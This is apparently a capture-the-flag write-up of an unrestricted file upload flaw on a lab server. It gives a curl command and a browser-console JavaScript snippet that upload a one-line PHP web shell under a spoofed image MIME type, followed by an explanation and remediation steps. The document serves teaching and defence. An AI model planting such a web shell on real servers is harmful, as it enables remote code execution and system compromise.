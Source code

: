# Breach: Arbitrary File Upload via MIME Type Spoofing

## Discovery & Exploit

The site includes a file upload form which claims to only accept `.jpg` images.

We attempted uploading various file types, and eventually tried uploading a `.php` file while spoofing the MIME type as `image/jpeg`.

Using `curl`, we submitted the following request:

```
curl -F "uploaded=@shell.php;type=image/jpeg" -F "Upload=Upload" http://192.168.1.101/?page=upload
```

The server did not perform backend validation of file contents or extension, and the file was successfully uploaded and interpreted as PHP.

Upon execution of the uploaded script, the server responded with:

``The flag is: [actual flag value]``

To simplify the process, we wrote a JavaScript snippet that replicates the upload directly from the browser console. This eliminates the need for external tools like `curl`.

> You can run the following script directly in the browser's developer console:

```javascript
// upload-image.js
const formData = new FormData();
formData.append("Upload", "Upload");
formData.append("uploaded", new File(["<?php echo shell_exec($_GET['cmd']); ?>"], "shell.php", { type: "image/jpeg" }));

fetch("http://192.168.1.101/?page=upload", {
  method: "POST",
  body: formData
}).then(res => res.text()).then(html => console.log("Uploaded. Check server response or path."));
```

## Vulnerability Details

This is a classic case of **unrestricted file upload**, where the server:

- Accepts a file based on MIME type or extension alone (client-side enforced)
- Fails to inspect or validate the file contents on the backend
- Stores and executes files in a web-accessible location

Combined, these flaws allow an attacker to upload a **malicious PHP script** under the guise of a `.jpg`, leading to **remote code execution** and full system compromise.

References:

- https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- https://portswigger.net/web-security/file-upload

## Remediation

1. Always validate file content types on the server side.
2. Never trust the MIME type or file extension provided by the client.
3. Store uploads outside of the web root when possible.
4. Rename uploaded files to prevent code execution.
5. Disallow executable file types entirely (e.g., `.php`, `.exe`, `.js`, `.jsp`).
6. Set appropriate Content-Disposition headers and file permissions.